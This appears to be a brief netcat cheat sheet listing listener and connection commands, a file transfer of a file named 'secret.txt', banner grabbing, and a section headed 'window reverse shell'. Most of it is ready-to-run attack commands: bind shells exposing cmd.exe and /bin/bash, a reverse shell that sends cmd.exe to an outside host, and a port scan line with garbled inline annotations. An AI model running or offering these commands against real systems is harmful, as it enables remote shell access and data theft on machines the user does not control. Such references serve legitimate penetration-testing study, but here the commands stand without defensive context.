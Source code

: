 # netcat

Netcat commands:

```
c:> nc -l -p 31337
nc 192.168.0.10 31337

c:> nc -v -w 30 -p 31337 -l < secret.txt
nc -v -w 2 192.168.0.10 31337 > secret.txt
```

Banner Grabbing:

```
nc 192.168.0.10 80
```


window reverse shell:

```
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc rogue.255s-wolf.com 80 -e cmd.exe
nc -lp 80
nc -lp 31337 -e /bin/bash
nc 192.168.0.11 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
